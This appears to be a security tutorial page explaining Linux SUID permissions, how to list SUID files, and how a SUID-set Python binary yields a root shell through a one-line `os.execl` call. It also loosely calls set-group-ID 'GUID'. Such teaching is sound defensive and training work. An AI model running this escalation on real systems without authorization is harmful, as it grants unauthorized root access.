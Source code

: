 # SUID Privilege Escalation

## What is SUID?

**Set User ID (SUID)** is a special permission in Unix/Linux systems. When a file has the SUID bit set, it allows the file to be executed with the privileges of the file's owner, regardless of the user running the file. Typically used to grant regular users temporary elevated permissions to execute specific tasks.

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Indicated by `rws` for the owner’s permission. When the **SUID** bit is set (`s` instead of `x` for execute), any user who runs this file does so with the **permissions of the file owner**. This is commonly used when a file is owned by **root** but allows regular users to execute it with root privileges.

The next three characters (`rws`) represent the permissions for the **group** that owns the file. Similar to the owner permissions, **read (r)**, **write (w)**, and **execute (x)** are granted or denied to the group. When the **GUID (Set Group ID)** is set, the execute bit for the group is replaced with an `s`, indicating that the file will be run with the group’s privileges.

The **GUID** is similar to SUID but applies to the **group**. It allows anyone executing the file to run it with the permissions of the group that owns the file. In this example, the group permission includes `s`, showing that the GUID bit is set.

## How to Identify SUID Files

SUID files can be identified by searching for files with the `s` bit in the owner's execute permission field.

```bash
find / -perm -4000 2>/dev/null
```

Example of an SUID file:

```bash
-rwsr-xr-x 1 root root /usr/bin/passwd
```

In this example:

* `rws` indicates the SUID bit is set.
* The owner is **root**, meaning any user executing this file does so with **root** privileges.

## How to exploit SUID Binaries to escalate privilege.

Certain binaries, like `su`, `sudo`, `passwd`,etc typically have the SUID bit set on all Linux systems. These are essential system binaries and are generally secure. However, vulnerabilities are more likely to be found in non-system binaries. To begin exploring potential exploitation methods, checking GTFObins for any relevant techniques is a great first step.

{% embed url="https://gtfobins.github.io/#+suid" %}

For an example, if suid is set on python then we can exploit it to escalate privileges

**Verify SUID on python**

```
ls -l /usr/bin/python
-rwsr-xr-x 1 root root /usr/bin/python

```

Create a Python One-Liner for Privilege Escalation

```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-i")'
```

Verifying privilege escalation

```
whoami
root
```

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

